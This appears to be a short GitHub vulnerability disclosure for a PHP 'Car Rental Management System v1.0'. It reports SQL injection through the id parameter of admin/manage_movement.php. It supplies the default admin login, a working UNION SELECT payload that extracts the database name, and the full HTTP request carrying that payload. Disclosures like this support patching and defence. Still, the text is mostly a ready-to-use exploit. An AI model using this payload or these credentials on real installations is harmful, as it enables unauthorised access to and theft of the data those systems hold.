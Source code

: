 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/admin/manage_movement.php?id=

Vulnerability location: /car-rental-management-system/admin/manage_movement.php?id=,id

[+] Payload: /car-rental-management-system/admin/manage_movement.php?id=-1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,database(),16,17--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/admin/manage_movement.php?id=-1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,database(),16,17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170959661-bde43dbc-b3bd-4523-b269-a12c1828278c.png)

![image](https://user-images.githubusercontent.com/54017627/170959511-9d3c7ab2-9689-4ff6-bbfa-f33dcfb69682.png)

